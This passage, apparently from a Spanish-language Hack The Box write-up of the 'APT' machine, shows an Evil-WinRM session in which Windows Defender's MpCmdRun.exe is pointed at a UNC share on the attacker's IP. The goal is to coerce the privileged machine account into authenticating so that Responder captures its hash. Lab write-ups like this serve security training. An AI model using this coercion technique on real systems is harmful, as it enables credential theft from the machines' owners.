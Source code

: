 <img src="/writeups/assets/img/APT-htb/6.png" alt="">

Lo más sencillo, sería que con el propio Windows Defender, escanear un recurso proviniente de un tercero, ya que la tarea que se va a ejecutar es privilegiada y como se va a producir una autenticación, el Account System lo voy a ver reflejado en el Responder

```null
*Evil-WinRM* PS C:\Program Files\Windows Defender> ./MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.16.6\test
Scan starting...
CmdTool: Failed with hr = 0x80508023. Check C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log for more information
```
